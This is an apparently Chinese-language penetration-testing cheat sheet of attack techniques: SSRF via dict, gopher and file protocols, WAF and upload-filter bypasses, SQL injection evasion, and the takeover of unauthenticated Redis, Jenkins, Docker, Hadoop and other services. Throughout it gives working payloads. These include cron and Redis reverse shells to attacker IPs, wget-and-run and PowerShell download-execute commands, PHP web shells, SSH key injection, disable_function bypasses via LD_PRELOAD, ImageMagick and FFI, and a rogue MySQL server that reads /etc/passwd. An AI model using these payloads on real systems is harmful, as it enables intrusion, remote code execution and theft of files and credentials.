十六进制：0x7f.0.0.1
十进制：2130706433
http://www.bejson.com/convert/ip2int/
句号
127。0。0。1
302脚本
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
攻击方VPS监听8080
dict协议
dict://www.attack.com:8080/hello:dict等于
ssrf.php?url=http://attack.com/302.php?s=dict&ip=www.attack.com&port=8080&data=hello:dict
Gopher协议
gopher:// www.attack.com:8080/gopher
ssrf.php?url=http://attack.com/302.php?s=gopher&ip=www.attack.com&port=8080&data=gopher
File协议
攻击机新建file.php
<?php
header("Location: file:///etc/passwd");
?>
ssrf.php?url=http://attack.com/file.php
gopher协议的脚本转换
抓取本地测试的正常请求
>socat -v tcp-listen:4444,fork tcp-connect:目标IP:6379
image image

将捕获日志保存txt
使用脚本转换为支持gopher协议的字符串
转换规则
如果第一个字符是>或者< 那么丢弃该行字符串，表示请求和返回的时间。
如果前3个字符是+OK 那么丢弃该行字符串，表示返回的字符串。
将\r字符串替换成%0d%0a
空白行替换为%0a
image

本地可执行
image

远程执行需对空格进行编码后再url编码一次
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/192.168.0.108/12138%200>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
image image image

协议
Curl版本需低于7.15.1
file:可回显时，使用file读取任意文件
dict:查看端口，操作内网服务
gopher:可发出get/post请求
使用gopher协议时，要进行两次url编码
http/https:探测存活主机
dict协议写shell
?url=dict://127.0.0.1:6379/set:x:<?php phpinfo();?>
?url=dict://127.0.0.1:6379/config:set:dir:/www/wwwroot/
?url=dict://127.0.0.1:6379/config:set:dbfilename:php.php
?url=dict://127.0.0.1:6379/save
Unicode编码
?url=dict://127.0.0.1:6379/set:x:"\x3C\x3Fphp\x20echo `$_GET[x]`\x3B\x3F\x3E"
slaveof复制shell到目标
From:http://r3start.net/index.php/2020/05/09/683
你的redis设置一个shell的键
Yourredis>FLUSHALL
Yourredis>set shell "<?php phpinfo();?>"
?url=dict://127.0.0.1:6379/slaveof:yourredisIP:6379
?url=dict://127.0.0.1:6379/config:set:dir:/www/wwwroot/
?url=dict://127.0.0.1:6379/config:set:dbfilename:test.php
?url=dict://127.0.0.1:6379/save
?url=dict://127.0.0.1:6379/slaveof:no:one
slaveof反弹shell
?url=dict://127.0.0.1:6379/slaveof: yourredisIP:6379
?url=dict://127.0.0.1:6379/config:set:dbfilename:exp.so
?url=dict://127.0.0.1:6379/MODULE:LOAD:./exp.so
?url=dict://127.0.0.1:6379/SLAVEOF:NO:ONE
?url=dict://127.0.0.1:6379/config:set:dbfilename:dump.rdb
?url=dict://127.0.0.1:6379/system.exec:'curl x.x.x.x/x'
?url=dict://127.0.0.1:6379/system.rev:x.x.x.x:8887
Fuzz/扫描web
#dirb http://192.168.0.1 /root/asp.txt,/root/dir.txt -a "USER-AGENT" –c "Cookie" -z 100
#nikto -C all -h http://192.168.0.107 nikto扫描web服务
#wpscan --url http://192.168.0.107/ -e u --wordlist /root/wordlist.txt 枚举用户爆破密码
#wpscan --url http://192.168.0.107/ -e vp 扫描漏洞插件
#perl joomscan.pl --url 192.168.0.107
WFuzz
爆破文件和文件夹
>wfuzz -w wordlist URL/FUZZ.php
>wfuzz -w wordlist URL/FUZZ
枚举数字参数
>wfuzz -z range,000-999 -b session=session -b cookie=cookie http://127.0.0.1/getuser.php?uid=FUZZ
POST账号密码爆破FUZnZ
>wfuzz -w userList -w pwdList -d "username=FUZZ&password=FUZ2Z" http://127.0.0.1/login.php
随机HTTP头
>wfuzz -z range,0000-9999 -H "X-Forwarded-For: FUZZ" http://127.0.0.1/get.php?userid=666
使用代理fuzz
>wfuzz -w wordlist -p 127.0.0.1:1087:SOCKS5 URL/FUZZ
基础认证爆破
>wfuzz -z list,"username-password" --basic FUZZ:FUZZ URL
【结果过滤】--hc或--ss不显示符合条件的结果。
【结果过滤】--sc或--sl或--sw或--sh显示符合条件的结果。
Cewl
爬行网站存为字典
>cewl http://www.qq.com/ -w dict.txt
指定字典长度
>cewl http://www.qq.com/ -m 9 -w dict.txt
网站提取Email
>cewl http://www.qq.com/ -n –e
Dirsearch
>python3 dirsearch.py --random-user-agents --recursive --thread 50 --extension php --plain-text-report report.txt –url http://127.0.0.1
Bypass WAF
SQL注入分块传输
https://github.com/c0ny1/chunked-coding-converter
image image

跑注入点被拦截
image

使用分块传输，右键选择
image image

使用SQLMAP跑注入
image image

>python sqlmap.py -r 1.txt --batch --proxy=http://127.0.0.1:8080 --dbs
image

自动提供可用的tamper
https://github.com/m4ll0k/Atlas
GET类型的注入
python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
POST类型的注入
python atlas.py --url http://site.com/index/id/ -m POST -D 'test=%%10%%' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
请求头注入
python atlas.py --url http://site.com/index/id/ -H 'User-Agent: mozilla/5.0%%inject%%' -H 'X-header: test' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
组合tamper
python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --concat "equaltolike,htmlencode" --random-agent -v
列出tamper
python atlas.py -g
例子
注入
python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
image

可以看到被拦截了
查找能绕过的tamper
python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
image

根据返回码200得到一个可绕过waf的tamper
versionedkeywords这个tamper
继续注入
python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords
根据状态码来判断有时会有点鸡肋，但是也能用用，随机发挥吧。
垃圾数据
#coding=utf-8
import random,string
from urllib import parse
# code by yzddMr6
varname_min = 5
varname_max = 15
data_min = 20
data_max = 25
num_min = 50
num_max = 100
def randstr(length):
	str_list = [random.choice(string.ascii_letters) for i in range(length)]
	random_str = ''.join(str_list)
	return random_str
def main():
	data={}
	for i in range(num_min,num_max):
		data[randstr(random.randint(varname_min,varname_max))]=randstr(random.randint(data_min,data_max))
	print('&'+parse.urlencode(data)+'&')
main()
放到要注入的字段前后
上传bypass
图片文件头
PNG 的文件头为十六进制的 89 50 4E 47 0D 0A 1A 0A
GIF 为 47 49 46 38 37 61
JPG 为 FF D8 FF E0
添加图片头或合并图片包含
后缀大小写
文件名前缀加[0x09]
上传.htaccess
SetHandler application/x-httpd-php
二次渲染
GIF
找好一个大一点的GIF，尾部使用c32插入shell，上传，下载回来，使用burp的comparer功能找出整个文件没有被渲染的位置，插入shell再上传
JPG
使用脚本直接生成
https://github.com/BlackFan/jpg_payload
PNG
使用脚本直接生成
先取消php.ini注释;extension=php_gd2.dll
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
       0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
       0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
       0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
       0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
       0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
       0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
       0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
	$r = $p[$y];
	$g = $p[$y+1];
	$b = $p[$y+2];
	$color = imagecolorallocate($img, $r, $g, $b);
	imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'./1.png');
?>
上传php3,php4,phtml等
文件名后加::$DATA
ConTent-Disposition: form-data; name="filepath"; filename="1.asp::$DATA"
ConTent-Disposition: form-data; name="filepath"; filename="1.asp::$DATA\0x00\1.asp0x00.jpg"
asp . (空格+.)
php. .(点+空格+点)
双写phphpp
00截断
Get参数00截断直接添加%00
POST参数00截断修改hex为00
修改一些固定的参数
文件名去掉双引号
加一个filename1的参数
form变量改成f+orm
去掉form-data
在Content-Disposition或form-data;后添加多个空格
引号回车
ConTent-Disposition: form-data; name="filepath"; filename="backlion.asp
"
Content-Type和ConTent-Disposition调换位置
文件名前缀加空格
filename=    "1.asp"
name前加空格
Content-Disposition: form-data;      name="uploaded"; filename="1.asp"
form-data的前后加上+
Content-Disposition: +form-data; name="filepath"; filename="1.asp"
ASP+IIS
s%elect>select
s%u0065lect>select  
s%u00f0lect>select
s%u0045lect = s%u0065lect = %u00f0lect
u -->%u0055 --> %u0075
n -->%u004e --> %u006e
i -->%u0049 --> %u0069
o -->%u004f --> %u006f -->%u00ba
s -->%u0053 --> %u0073
l -->%u004c --> %u006c
e -->%u0045 --> %u0065-->%u00f0
c -->%u0043 --> %u0063
t -->%u0054 -->%u0074 -->%u00de -->%u00fe
f -->%u0046 -->%u0066
r -->%u0052 -->%u0072
m -->%u004d -->%u006d
Asp+iis&aspx+iis
s%u006c%u0006ect>select
apache
TEST /sql.php?id=1 HTTP/1.1
大小写/关键字
UniOn SeLECT
Mid()substring()  substr()
Hex()ascii()
sleep() =benchmark()
concat_ws()=group_concat()
双重url编码
变换请求方式
HPP参数污染
id=1&id=2&id=3
得到的结果：Asp.net + iis：id=1,2,3 
Asp+iis：id=1,2,3 
Php+apache：id=3
MSSQL:
GET+POST: 
GET:http://192.168.125.140/test/sql.aspx?id=1 union/*
post:  id=2*/select null,null,null
无逗号形式：
?id=1 union select 1&id=2&id=3&id=4 from admin--（）  
利用逗号：
?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--
无效参数形式：
?a=/*&sql=xxx&b=*/  a,b为无效参数
溢出形式：?id=1/*&id=*//*&id=*//*......&id=*//*&id=*/ union  select null,system_user,null from INFORMATION_SCHEMA.schemata
MYSQL：
?id=1&id=1&id=1&id=1&id=1&id=1&id=1&id=….. &id=1 union select 1,2 from admin
数据库
Access
空格符
%09、%0a、%0c、%0d、%16
Mysql
注释符
#、/*...*/、--[空格] ...
空格符
[0x09,0x0a-0x0d,0x20,0xa0]
特殊符号
%a 换行符，可结合注释符使用%23%0a，%2d%2d%0a。
%21  ！ 叹号
%2b  +  加号
%2d  -  减号
%40  @  符号
%7e   ~  波浪号
Id=1 union select(1),user()
Id=1 union /!12345select/1,user()
Id=1 union select@1,user()
Id=1 union select {x 1},user()
Id=1 union select"1",user()
Id=1 union select\N,user()
Id=1 union select 1,user()`
Id=1 union select 1,user()""
Id=1 union select 1,user()A
Id=1 union select 1,user()`b
Id=1 union(select 1,(select/!schema_name/from information_schema.SCHEMATA limit 1,1))
Id=1 union(select 1,(select{x schema_name}from information_schema.SCHEMATA limit 1,1))
Id=1 union(select 1,(select(schema_name)from information_schema.SCHEMATA limit 1,1))
浮点数
Id= 1.0union select 1,user()
Id= 1.union select 1,user()
Id= 1E0union select 1,user()
Id=\Nunion select 1,user()
Id=1 unionselect user(),2.0from admin
Id=1 union select user(),8e0from admin
Id=1 union select user(),\Nfrom admin
内联注释
/*!UnIon12345SelEcT*/ 1,user()   //数字范围 1000-50540
mysql黑魔法
select{x username}from {x11 test.admin};
函数
截取
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
Lpad(version(),1,1)
Rpad(version(),1,1)
Left(version(),1)
reverse(right(reverse(version()),1)) 
连接
concat(version(),'|',user());
concat_ws('|',1,2,3)
字符转换
Ascii() Char() Hex() Unhex()
过滤逗号
127' UNION SELECT * FROM ((SELECT1)a JOIN (SELECT2)b JOIN (SELECT3)c JOIN (SELECT4)d JOIN (SELECT5)e)# 
相当于 union select 1,2,3,4,5
union select * from (select 1)a join(select{x schema_name} from information_schema.SCHEMATA limit 1,1)b
limit 1 offset 0相当于limit 1,0
mid(version() from 1 for 1)相当于Mid(version(),1,1)
<>被过滤
id=1 and ascii(substr(database(),0,1))>64
比较符
greatest(n1,n2,n3,等)函数返回输入参数(n1,n2,n3,等)的最大值
id=1 and greatest(ascii(substr(database(),0,1)),64)=64
函数构造
sleep(5)/benchmark(10000000,SHA1(1))
id=1 xor sleep%23%0a(5)
id=1 xor sleep%2d%2d%0a(5)
id=1 xor sleep([%20]5) 
id=1 xor benchmark%0a(10000000,SHA1(1))
id=1 xor sleep[空白字符](5)
select{x[可填充字符]1}
MSSQL
注释符
/*、--、;00%、/**/
空格符
[0x01-0x20][0x0a-0x0f][0x1a-0x-1f]
特殊符号
%3a 冒号
id=1 union:select 1,2 from:admin
id=1 union select+1,'2',db_name() from admin
id=1 union select-1,'2',db_name() from admin
id=1 union select.1,'2',db_name() from admin
id=1 union select:1,'2',db_name() from admin
id=1 union select~1,'2',db_name() from admin
id=1%20union%20select%201,'2',db_name()%80from%20admin
id=1 union select 1,'2',db_name+() from admin
函数变形: db_name[空白字符]()
浮点数
id=1.1union select 1,'2',db_name()
id=1e0union select 1,'2',db_name()
运算符
id=1-1union select '1',system_user,3 from admin
id=1e-union select '1',system_user,3 from admin
字符串截取函数
Substring(@@version,1,1)
Left(@@version,1)
Right(@@version,1)
charindex('test',db_name())
字符串转换函数
Ascii('a')=char(97) 括号之间可添加空格
WAF
同时提交GET和POST
访问HTTP绕过对HTTPS的防护
%00截断
参数填充垃圾数据，缓冲区溢出
X-FORWARDED-FOR伪造绕过
静态文件/sql.php/1.js?id=1绕过
白名单绕过，URL只要存在某字符就不会拦截
/sql.php/admin.php?id=1
/sql.php?a=/manage/&b=../etc/passwd
/../../../manage/../sql.asp?id=2
伪造User-agent绕过，可改为爬虫agent
未授权访问
Redis未授权访问
测试
>redis-cli -h 127.0.0.1 flunshall 
192.168.0.110:6379>ping
PONG 存在未授权访问
JS打内网
var cmd = new XMLHttpRequest();      
cmd.open("POST", "http://127.0.0.1:6379");      
cmd.send('flushall\r\n');             
var cmd =new XMLHttpRequest();      
cmd.open("POST", "http://127.0.0.1:6379");      
cmd.send('eval \'' + 'redis.call(\"set\",\"1\",\"\\n\\n*/1 * * * * /bin/bash -i >&/dev/tcp/外网IP/5566 0>&1\\n\\n");redis.call(\"config\", \"set\", \"dir\",\"/var/spool/cron/\"); redis.call(\"config\",\"set\", \"dbfilename\", \"root\");' + '\' 0' +"\r\n");       
var cmd =new XMLHttpRequest();      
cmd.open("POST", "http://127.0.0.1:6379");       
cmd.send('save\r\n');
反弹shell
保存为sh
echo -e "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.0.108/12138 0>&1\n\n"|redis-cli -h $1 -p $2 -x set 1
echo -e "\n\n */1 * * * * python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.108",12138));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
执行
>bash 1.sh 192.168.0.120 6379
image image

写shell
6379> config set dir /var/www/html/
6379> config set dbfilename shell.php
6379> set x "<?php phpinfo();?>"
6379> save
SSH
ssh-keygen
本地生成一对密钥
https://github.com/JoyChou93/hackredis
>ssh-keygen -t rsa -C "xx@xx.com"
>(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > qq.txt
>redis-cli -h 127.0.0.1 flunshall
>cat qq.txt | redis-cli -h 127.0.0.1 -x set crackit
>redis-cli -h 127.0.0.1
6379> config set dir /root/.ssh/
6379> config set dbfilename "authorized_keys"
6379> save
本地登录
#ssh -i id_rsa root@11.11.11.11
redis-rogue-getshell
https://github.com/vulhub/redis-rogue-getshell
需要python3.0以上
编译
>cd RedisModulesSDK/
>make
会在此目录下生成exp.so
执行命令
>python3 redis-master.py -r 192.168.0.120 -p 6379 -L 192.168.0.108 -P 12138 -f RedisModulesSDK/exp.so -c "cat /etc/passwd"
image

redis-rogue-server
https://github.com/n0b0dyCN/redis-rogue-server
需要python3.6以上
编译
>cd RedisModulesSDK/exp
>make
执行
>./redis-rogue-server.py --rhost 192.168.0.120 --lhost 192.168.0.108
image image

也可以反向shell
image image

redis在windows下的利用
Web目录写入木马
启动项
系统DLL劫持(目标重启或注销)
特定软件的DLL劫持
覆盖快捷方式
覆盖配置文件
覆盖sethc等文件
https://github.com/r35tart/RedisWriteFile
>python3 rediswritefile.py --rhost=目标IP --rport=6379 --lhost=本机IP --lport=本地端口 --rpath="在目标保存的路径" --rfile="在目标保存的文件" --lfile="本地文件" --auth=redis密码
Lua RCE
https://github.com/QAX-A-Team/redis_lua_exploit
修改redis_lua.py里的 host 为目标 IP
执行返回正常，反弹shell
>eval "tonumber('/bin/bash -i >& /dev/tcp/192.168.0.108/12345 0>&1', 8)" 0
Jenkins未授权访问
http://www.qq.com:8080/manage
http://www.qq.com:8080/script
执行命令
>println "ifconfig -a".execute().text
反弹shell
>println "wget http://your.com/back.py -P /tmp/".execute().text
>println "python /tmp/back.py yourIP 8080".execute().text
写shell
>println "wget http://your.com/t.txt -o /var/www/html/1.php".execute().text
>new File("/var/www/html/1.php").write('<?php @eval($_POST[1]);?>');
>def webshell = '<?php @eval($_POST[1]);?>'
>new File("/var/www/html/1.php").write("$webshell");
MongoDB未授权访问
默认端口27017直接连接进行增删改查
连接工具
https://s3.mongobooster.com/download/releasesv5/nosqlbooster4mongo-5.1.12.exe
ZooKeeper未授权访问
默认端口2181
获得服务器环境信息
>echo envi|nc 192.168.0.1 2181
连接
>./zkCli.sh -server ip:port
连接工具
https://issues.apache.org/jira/secure/attachment/12436620/ZooInspector.zip
Elasticsearch未授权访问
默认端口9200
http://1.1.1.1:9200/_plugin/head/
http://1.1.1.1:9200/_nodes
http://1.1.1.1:9200/_river
http://1.1.1.1:9200/_plugin/sql/
Memcache未授权访问
默认端口11211
>telnet 1.1.1.1 11211
>nc -vv 1.1.1.1 11211
Hadoop未授权访问
http://192.168.1.1:8088/cluster
本地监听端口 >> 创建Application >> 调用Submit Application API提交
#!/usr/bin/env python
import requests

target = 'http://192.168.18.129:8088/'
lhost = '192.168.18.138' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
Docker未授权访问
默认端口2375
>docker -H tcp://1.1.1.1:2375 images
本地监听
启动容器
docker -H tcp://1.1.1.1:2375 run -id -v /etc/crontabs:/tmp alpine:latest
docker -H tcp://1.1.1.1:2375 ps
进入容器
docker -H tcp://1.1.1.1:2375 exec -it a8ff7ed880fb sh
echo '* * * * * /usr/bin/nc {vps_ip} 9999 -e /bin/sh' >> /tmp/root #添加计划任务
cat /tmp/root 
exit
Shipyard默认密码
admin/shipyard
ActiveMQ未授权访问
默认端口8161
http://1.1.1.1:8161/admin/connections.jsp
PUT /fileserver/%2F%2F2%083.jsp HTTP/1.0
Content-Length: 27
Host: 1.1.1.1:8161
Connection: Close
Authorization: Basic YWRtaW46YWRtaW4=
123123123123123123123123123
JBOSS未授权访问
http://192.168.1.1:8080/jmx-console/ 无需认证进入
jboss.deployment部署shell
addURL()的paramValue写入远程war木马地址
阿里云OSS Key利用
反编译app文件，查找可能会包含oss key的文件，如JS。
OSSAccessKey、AccessKeySecret使用OSS浏览器访问。
第三方行云管家可修改系统密码。
反弹shell
From: https://xz.aliyun.com/t/8310
https://api.aliyun.com/#/?product=Ecs
搜索框搜索选择CreateCommand来创建一个命令
CommandContent填命令的base64，Type填RunShellScript
命令echo "bash -i >& /dev/tcp/你的IP/端口 0>&1"| base64
bash -i >& /dev/tcp/你的IP/端口 0>&1
YmFzaCAtaSAmZ3Q7JiAvZGV2L3RjcC8xLjEuMS4xLzQ0NDQgMCZndDsmMQ==
image

填好以后点调试SDK
会直接给你起一个Cloud shell
image

并创建一个CreateCommand.py文件，使用vi编辑
image

填accessKeyId,accessSecret保存执行，并记录Commandid
image

再次在搜索框搜索InvokeCommand
image

Commandid填上面请求的返回值，InstanceId填行云管家显示的实例ID
image

填好了点调试sdk然后编辑文件把accessKeyId accessSecret填一下，执行
image

然后看监听的服务器shell已经反弹成功
image

Linux绕过disable_function
LD_PRELOAD
linux环境
putenv()、mail()可用
https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD
http://192.168.0.107/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so
outpath是命令输出位置，sopath指定so文件路径。
或
替换php文件中的mail为error_log("a",1);
php7.0-7.3 bypass
直接bypass
https://raw.githubusercontent.com/mm0r1/exploits/master/php7-gc-bypass/exploit.php
windows系统组件com绕过
<?php
$command = $_GET['cmd'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
CGI启动方式
phpinfo中搜索server api是cgi或者fastcgi
如果是cgi模式:上传如下htaccess
Options ExecCGI
AddHandler cgi-script .xx
windows平台
#!C:/Windows/System32/cmd.exe /c start calc.exe
1
linux平台
#!/bin/bash
echo -ne "Content-Type: text:html\n\n"
whoami
如果是fast_cgi，上传如下htaccess
Options +ExecCGI
AddHandler fcgid-script .abc
FcgidWrapper "C:/Windows/System32/cmd.exe /c start cmd.exe" .abc
上传任意文件.abc
相对路径
AddHandler fcgid-script .html
FcgidWrapper "../../php/php7.3.4nts/php-cgi.exe" .html

AddHandler fcgid-script .xx
FcgidWrapper "../../../WWW/localhost/calc.exe" .xx
ImageMagick组件绕过
imageMagick 版本 v6.9.3-9 或 v7.0.1-0
第一种
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";
$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
$command = 'id';
}
$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'    //核心
pop graphic-context
EOF;
file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
第二种
#include <stdlib.h>
#include <string.h>
void payload() {
const char* cmd = "nc -e /usr/bin/zsh 127.0.0.1 4444";
system(cmd);
}
int fileno() {
if (getenv("LD_PRELOAD") == NULL) { return 0; }
unsetenv("LD_PRELOAD");
payload();
}
编译
gcc -shared -fPIC imag.c -o imag.so
<?php
putenv('LD_PRELOAD=/var/www/html/imag.so');
$img = new Imagick('/tmp/1.ps');
?>
常规函数绕过
<?php
echo exec('whoami');?>
------------------------------------------------------
<?php
echo shell_exec('whoami');?>
------------------------------------------------------
<?php
system('whoami');?>
------------------------------------------------------
<?php
passthru("whoami");?>
------------------------------------------------------
<?php
$command=$_POST['cmd'];
$handle = popen($command , "r");
while(!feof($handle))
{        echo fread($handle, 1024);  //fread($handle, 1024);
}
pclose($handle);?>
-------------------------------------------------------
<?php
$command="ipconfig";
$descriptorspec = array(1 => array("pipe", "w"));
$handle = proc_open($command ,$descriptorspec , $pipes);
while(!feof($pipes[1]))
{        echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
}?>
pcntl_exec
开启了pcntl 扩展，并且php 4>=4.2.0 , php5，linux
<?php
if(function_exists('pcntl_exec')) {
pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
echo 'pcntl extension is not support!';
}
?>
test.sh
#!/bin/bash
nc -e /bin/bash 1.1.1.1 8888       #反弹shell
imap_open函数
<?php
error_reporting(0);
if (!function_exists('imap_open')) {
die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
imap_open('{' . $server . ':143/imap}INBOX', '', '');
sleep(5);
echo file_get_contents("/tmp/cmd_result");
?>
php7.4 FFI绕过
php 7.4
ffi.enable=true
<?php
$a='nc -e /bin/bash ip 8888';
$ffi = FFI::cdef(
    "int system(char *command);",
    "libc.so.6");
$ffi->system($a);
?>
shellshock
存在CVE-2014-6271漏洞
PHP 5.*，linux，putenv()、mail()可用
<?php
function shellshock($cmd) {
$tmp = tempnam(".","data");
putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
mail("a@127.0.0.1","","","","-bv");
$output = @file_get_contents($tmp);
@unlink($tmp);
if($output != "") return $output;
else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
蚁剑插件
01利用LD_PRELOAD环境变量
02利用ShellShock（CVE-2014-6271）
03利用Apache Mod CGI
04 PHP-FPM利用LD_PRELOAD环境变量（同1）
05攻击PHP-FPM监听端口
06 Json Serializer UAF
07具有特定析构函数UAF的PHP7 GC
open_basedir绕过
第一种
http://x.com/shell.php?a=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};
http://x.com/shell.php?a=if%20(%20$b%20=%20opendir(%22glob:///var/www/html/*.php%22)%20)%20{while%20(%20($file%20=%20readdir($b))%20!==%20false%20)%20{echo%20%22filename:%22.$file.%22\n%22;}closedir($b);}
第二种
http://x.com/shell.php?a=ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');system('cat ../../../../../etc/passwd');
http://x.com/shell.php?a=mkdir(%22/tmp/crispr%22);chdir(%27/tmp/crispr/%27);ini_set(%27open_basedir%27,%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);ini_set(%27open_basedir%27,%27/%27);print_r(scandir(%27.%27))
第三种
命令执行绕过
读文件
?a=show_source('preload.php');
?a=echo(readfile('preload.php'));
?a=print_r(readfile('preload.php'));
?a=echo(file_get_contents('preload.php'));
?a=print_r(file_get_contents('preload.php'));
Tomcat Ajp LFI&RCE
LFI
https://github.com/Kit4y/CNVD-2020-10487-Tomcat-Ajp-lfi-Scanner
>python CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.0.110 -p 8009 -f pass
image

RCE
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.107 LPORT=12138 R >/var/www/html/1.jpg
配合目标文件上传传入服务器
image

>java -jar ajpfuzzer_v0.6.jar
>connect 192.168.0.110 8009
>forwardrequest 2 "HTTP/1.1" "/index.jsp" 192.168.0.107 192.168.0.107 porto 8009 false "Cookie:AAAA=BBBB","Accept-Encoding:identity" "javax.servlet.include.request_uri:index.jsp","javax.servlet.include.path_info:/1.jpg","javax.servlet.include.servlet_path:/"
image

Mysql连接文件读取
https://github.com/Gifts/Rogue-MySql-Server
客户端必须启用LOCAL-INFILE 
客户端支持非SSL连接
目标web存在adminer等可检查数据库连接的脚本。
攻击机本地运行python构造假mysql服务，使用目标web连接，读取文件。
#coding=utf-8 
import socket
import logging
logging.basicConfig(level=logging.DEBUG)
filename="/etc/passwd"
sv=socket.socket()
sv.bind(("",3305))
sv.listen(5)
conn,address=sv.accept()
logging.info('Conn from: %r', address)
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
logging.info("auth okay")
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
logging.info("want file...")
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
logging.info(content)
conn.close()
Mysql开启外连
>grant all privileges on user.* to user@"%" identified by "P@ssw0rd";
MSSQL&Agent Job上线
USE msdb; EXEC dbo.sp_add_job @job_name = N'syspolicy_purge_now' ; EXEC sp_add_jobstep @job_name = N'syspolicy_purge_now', @step_name = N'syspolicy_purge_step1', @subsystem = N'PowerShell', @command = N'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://IP_OR_HOSTNAME/file''))"', @retry_attempts = 1, @retry_interval = 5 ;EXEC dbo.sp_add_jobserver @job_name = N'syspolicy_purge_now '; EXEC dbo.sp_start_job N'syspolicy_purge_now ';
使用在注入点处，使用burp进行url编码，编码后前面加%20(空格URL编码)
注入无列名
http://url/index.php?id=1 order by 6
http://url/index.php?id=-1 union select 1,(select `4` from (select 1,2,3,4,5,6 union select * from users)a limit 1,1)-- -
